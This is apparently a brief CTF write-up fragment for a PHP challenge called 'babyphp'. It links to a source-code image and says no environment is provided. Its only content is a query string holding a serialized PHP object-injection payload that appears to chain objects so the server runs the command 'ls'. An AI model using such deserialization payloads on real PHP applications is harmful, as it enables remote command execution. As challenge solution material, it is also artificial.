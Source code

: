 ## babyphp

不提供环境


```
?c=O:6:"pipimi":1:{s:1:"a";O:5:"Popko":3:{s:4:"left";a:1:{i:0;i:1;}s:5:"right";a:1:{i:0;i:2;}}}&a=Error&b=systemls&d=7&e=6&f=13&g=2
```